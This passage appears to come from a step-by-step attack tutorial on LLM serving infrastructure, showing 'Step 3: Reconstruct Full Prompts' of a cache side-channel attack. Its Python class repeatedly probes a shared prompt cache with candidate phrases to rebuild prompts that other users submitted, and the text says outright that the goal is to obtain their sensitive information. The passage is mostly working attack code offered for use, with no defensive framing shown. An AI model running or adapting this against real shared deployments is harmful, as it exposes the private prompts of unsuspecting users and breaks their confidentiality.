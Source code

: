 ### Step 3: Reconstruct Full Prompts

**What we're doing**: Piecing together the complete prompt from the cached tokens.

**Why**: This gives us the full sensitive information other users submitted.


```python
class PromptReconstructor:
    def __init__(self, monitor):
        self.monitor = monitor
        self.vocabulary = self.load_vocabulary()
    
    def load_vocabulary(self):
        """Load common words and phrases for reconstruction"""
        return {
            'starters': [
                "Imagine you are", "Help me", "Write a", "Create a", 
                "Explain how", "Show me", "Tell me", "Generate"
            ],
            'roles': [
                "expert programmer", "security analyst", "data scientist",
                "system administrator", "network engineer", "AI researcher"
            ],
            'actions': [
                "write code", "debug this", "analyze data", "solve problem",
                "create script", "build system", "design algorithm"
            ],
            'objects': [
                "function", "class", "script", "program", "algorithm",
                "database", "network", "system", "application"
            ],
            'connectors': ["that", "which", "to", "for", "with", "in", "on", "at"],
            'endings': ["please", "thanks", "help", "urgent", "asap"]
        }
    
    def reconstruct_template(self, known_prefix):
        """Reconstruct prompt template from known prefix"""
        print(f"🔨 Reconstructing template from: '{' '.join(known_prefix)}'")
        
        template_parts = [known_prefix]
        current_sequence = known_prefix.copy()
        
        # Try to extend with common patterns
        for category, words in self.vocabulary.items():
            if category == 'starters':
                continue  # Already have the start
                
            print(f"\nTrying {category}:")
            found_extension = []
            
            for phrase in words:
                phrase_tokens = phrase.split()
                test_sequence = current_sequence + phrase_tokens
                
                if self.monitor.probe_token_sequence(test_sequence):
                    print(f"Found {category}: '{phrase}'")
                    found_extension = phrase_tokens
                    break
                else:
                    print(f"Not found: '{phrase}'")
            
            if found_extension:
                current_sequence.extend(found_extension)
                template_parts.append(found_extension)
```